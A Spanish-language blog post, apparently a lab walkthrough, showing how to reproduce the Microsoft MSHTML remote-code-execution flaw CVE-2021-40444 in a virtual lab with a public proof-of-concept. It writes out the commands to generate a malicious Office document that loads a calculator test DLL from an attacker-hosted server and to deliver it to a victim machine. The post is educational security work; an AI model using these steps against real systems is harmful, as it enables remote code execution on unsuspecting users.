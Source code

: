 ```yaml
---
layout: post
title:  "Explotando la vulnerabilidad  Microsoft MSHTML CVE-2021-40444"
date:   2021-09-12 12:30:00 -0700
categories: jekyll ruby ubuntu docker
tags:
- Creador de contenido
- docker
- Ubuntu
---
```



El 7 de septiembre de 2021 Microsoft anuncia la vulnerabilidad CVE-2021-40444 de ejecución de código remoto en MSHTML, Microsoft reporta que tiene conocimiento de los atacantes que están usando esta vulnerabilidad por medio de un documento de office especialmente construido para explotar la vulnerabilidad.

Microsoft comenta que los atacantes están usando el motor de renderizado del navegador que usa office para crear un control malicioso de ActiveX, los atacantes tienen que convencer a la víctima que habrá el documento para logra conseguir que el ataque sea efectivo.

Para mitigar esta vulnerabilidad de forma alternativa se recomienda desactivar Activex controls desde internet Explorer. 
#Prerequisitos
Para esta prueba vamos a usar virtualbox, con las maquinas de Kali Linux y la maquina de desarrolladores de Windows, la maquina Windows necesita tener instalado office, y las dos maquinas virtuales necesitan que configuremos el adaptador de red en tipo puente.

# Como explotar la vulnerabilidad 

Para explotar esta vulnerabilidad un usuario de Github hizo ingeniería inversa a uno de los archivos que usan los atacantes, y publico los script en su repositorio, este repositorio será el que usaremos para nuestra PoC.
Antes de iniciar tenemos que tener instalado lcab
```console
sudo apt-get install lcab
```
Ya con lcab instado podemos continuar, lo primero que tenemos que hacer descargar el código a nuestra máquina.

```console
git clone https://github.com/lockedbyte/CVE-2021-40444
cd CVE-2021-40444
```

![Crepe](/assets/img/20210912/directorio-del-repositorio.png)

Generamos el docx malicio que usando un DLL, vamos a usar el que se encuentra en test que nos abre la Calculadora de Windows. Para generarlo usamos los scripts del repositorio

```console
python3 exploit.py generate test/calc.dll http://<SRV IP>
```
![Crepe](/assets/img/20210912/generando-el-archivo.png)


Donde SRV IP es la IP de la maquina donde lanzaremos el ataque, este paso nos genero un archivo en la carpeta out, ese archivo es el que tenemos que hacer llegar la maquina víctima.


Ahora tenemos que levantar el servidor que será el que el archivo consulte para explotar la vulnerabilidad, seguimos usando el mismo script del repositorio.

```console
sudo python3 exploit.py host 80
```
![Crepe](/assets/img/20210912/levantar-el-servidor.png)

ahora solo tenemos que mandar el archivo a la maquina victima.


Para hacer llegar a la victima el archivo vamos a usar un web server con Python y desde la maquina victima entramos al link y descargamos el archivo.

Lo que tenemos que hacer es abrir una nueva terminal y dirigirnos a la carpeta out del repositorio 

```console
cd CVE-2021-40444/out
ls
```


![Crepe](/assets/img/20210912/ls-de-out.png)


En esta carpeta levantamos el servidor web con Python

```console
Python3 -m http.server
```

![Crepe](/assets/img/20210912/http-server.png)


Esto nos habilita un servidor en el equipo por el puerto 8000, este lo tendremos que abrir desde la maquina de la victima descargar el archivo y ejecutarlo.


# Paso final 

Abrir el link con la descarga del archivo.


![Crepe](/assets/img/20210912/descargando-el-archivo.png)

y lo ejecutamos

![Crepe](/assets/img/20210912/ejecuntando-el-archivo.png)

Al ejecutar el archivo nos abre el office, después se abre una ventana de CMD y la calculadora.

Así es como los atacantes hacen y mandan sus archivos malicioso.

Espero entendamos mejor cómo funciona la vulnerabilidad CVE-2021-40444, y recuerden que esta información es compartida a ustedes con el fin de aprender un poco sobre seguridad informática, y para que ustedes puedan realizar pruebas en una red administrada por ustedes. Agradecemos al usuario lockedbyte por compartir los resultados de su investigación.

# Referencias

* [Notica](https://www.huntress.com/blog/cybersecurity-advisory-hackers-are-exploiting-cve-2021-40444)
* [Repositorio en Github](https://github.com/lockedbyte/CVE-2021-40444)
* [VirusTotal de archivo usado por atacantes](https://www.virustotal.com/gui/url/0f9b8ba7ad03f5b5baa46f92ab4432dfcbcf6f97c9f9ffbf3970cfa70319c1cc/detection)
* [Comunicado de Microsoft](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444)